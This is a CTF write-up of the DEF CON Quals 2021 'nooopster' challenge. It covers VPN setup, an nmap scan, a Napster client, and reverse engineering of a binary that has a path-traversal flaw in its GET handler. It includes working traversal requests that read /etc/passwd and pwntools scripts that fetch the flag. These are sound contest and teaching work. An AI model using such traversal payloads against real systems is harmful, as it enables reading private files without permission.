




# DEF CON CTF Quals 2021

### Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n)), Will Green ([Ducky](https://github.com/wlg0005))
### Challenge: nooopster
### Category: PWN, RE 

## Description:

#### Sharing files like its 1999. Connect to my network with OpenVPN.
#### nooopster.challenges.ooo 1999

## Walkthrough:

We're provided an OpenVPN config file and key:

```bash
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 3
```

Initially the config file contained the wrong remote IP so we were having trouble connecting but with some sharp eyes from Dayton, we were able to replace the incorrect IP with `nooopster.challenge.ooo 1999`. This was eventually fixed by the challenge authors.

Using OpenVPN we can connect like so:

`sudo openvpn nooopster.ovpn`

Based off the OpenVPN config file we know that our local VPN endpoint is `192.168.5.2` and the remote VPN endpoint is `192.168.5.1`. So let's try running a nmap scan on `192.168.5.1`:

```bash
$ sudo nmap -sC -sV -oN nmap/initial 192.168.5.1

PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

Because nmap told us that this was a MLDonkey server, we initially tried connecting via netcat to see if we could supply MLDonkey commands; as well as downloading MLDonkey and other eDonkey clients. All of which didn't work for us.

After some time, we took a closer look at port `8888` and realized that it was actually the standard port for `Napster` which made a lot more sense given the challenge name `nooopster`. 

Doing some research we were able to find a linux napster client called [`Nap`](http://nap.sourceforge.net/). 

Downloading the i386 Debian package and installing like so:

```bash
$ sudo dpkg --add-architecture i386

$ sudo apt-get update

$ sudo dpkg -i nap_1.5.2-2_i386.deb
```

We can now connect to the Napster server like so `nap -s 192.168.5.1:8888`:


After reading some [documentation](http://nap.sourceforge.net/userguide.html) we were able to list the channels with the `/clist` command which revealed a channel called `#chat`. Then we connected to the channel:

`/join #chat`


There appeared to be a bot that repeatedly told us to check out his files. So let's do that! We can use the `/browse nooopster` command to see what files he has:


Nice, that's a lot of 90s songs (which are actually all rickrolls). But if you continue scrolling there's one interesting file at the very end:


So let's download it and run `file`:

```
$ file nooopster

nooopster: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=35b1628f65a3b5d518bc802d5cbe122bee0bf226, for GNU/Linux 3.2.0, stripped
```

Since this is an ELF binary, we will throw it into Binary Ninja and check out  `main()` (functions have been renamed for readability purposes):



Knowing that napster is a peer-to-peer file sharing service, the `chdir("shared")` call lead us to believe that this was the binary for the client the `nooopster` user was using on port 7070. 

It appears as though the initial connection is done with the first `do_connect()` and `send/recv_nap_msg()` call sequences. 

Let's check out that `pthread_create()` call:



It appears that a new thread is being created that executes the `start_routine_1a80()` function, which starts out by creating a new socket and creating a new thread to handle the connections to the server:


Now, we can take a look at the `start_routine()` function in the above `pthread_create()`:



After digging around in the [napster protocol specification](http://opennap.sourceforge.net/napster.txt), we are able to get a better idea of what is going on here. This above code appears to be for use in handling file download requests. As the protocol specification states in section *5.1  Normal Downloading*, for each download request, a 'GET' string is sent. The code appears to check for that 'GET' string before processing the rest of the message. 

Scrolling down into the function, we find a simple logic vulnerability in this program: 



After receiving the filename via the 'GET' command, the function checks to make sure the file path starts with `\shared\`. Then, since it assumes it is running in the `\shared\` directory already, it removes the `\shared\` portion of the path and processes everything after it as a file of its own. 

So, when we asked for the `nooopster` binary in the napster client, it sent a request to the vulnerable client that looked something like this:

```
GETdayt0n "\shared\nooopster" 0
```

We can take advantage of the fact that the vulnerable client processes everything after the `\shared\` string and download virtually any file on the remote client's system. To do this, we would need to send a request that looked like:

```
GETdayt0n "\shared\/etc/passwd" 0
```

This way, the program will attempt to open, read, and send the contents of the file at `/etc/passwd`.

The tricky part was actually triggering this bug in the first place. 

It appeared that in order for us to send our exploit and retrieve the flag, we not only had to connect to the Napster server, but we also had to first download a file manually through the Napster, such as the nooopster binary from before. We made a [`check.py`](./check.py) script to ensure that we were able to send requests to the server after the manual download:

```python
from pwn import *

p = remote('192.168.5.1',7070)
print(p.recv())
p.sendline(r'GETducky "\shared\nooopster" 0')
p.interactive()
```


Once we confirmed that the server would respond to our requests, we just have to update the script to grab `/flag`:

```python
from pwn import *

p = remote('192.168.5.1',7070)
print(p.recv())
p.sendline(r'GETducky "\shared\/flag" 0')
p.interactive()
```

Running the script, we successfully retrieve the flag!

### Flag: OOO{M4573R_0F_PUPP375}